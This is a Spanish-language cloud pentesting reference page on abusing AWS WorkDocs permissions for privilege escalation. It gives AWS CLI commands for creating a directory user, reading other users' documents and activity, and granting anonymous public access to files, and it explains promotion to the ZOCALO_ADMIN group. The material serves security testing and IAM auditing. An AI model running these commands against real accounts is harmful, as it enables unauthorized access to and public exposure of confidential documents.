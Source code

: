 # AWS - WorkDocs Privesc

## WorkDocs

Para más información sobre WorkDocs, consulta:

{{#ref}}
../aws-services/aws-directory-services-workdocs-enum.md
{{#endref}}

### `workdocs:CreateUser`

Crea un usuario dentro del Directorio indicado, luego tendrás acceso tanto a WorkDocs como a AD:
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Los archivos pueden contener información sensible, léelos:
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

Si no tienes acceso para leer algo, simplemente puedes otorgarlo.
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

Puedes convertir a un usuario en administrador al configurarlo en el grupo ZOCALO_ADMIN.\
Para eso, sigue las instrucciones de [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage_set_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage_set_admin.html)

Inicia sesión con ese usuario en workdoc y accede al panel de administración en `/workdocs/index.html#/admin`

No encontré ninguna manera de hacer esto desde la cli.
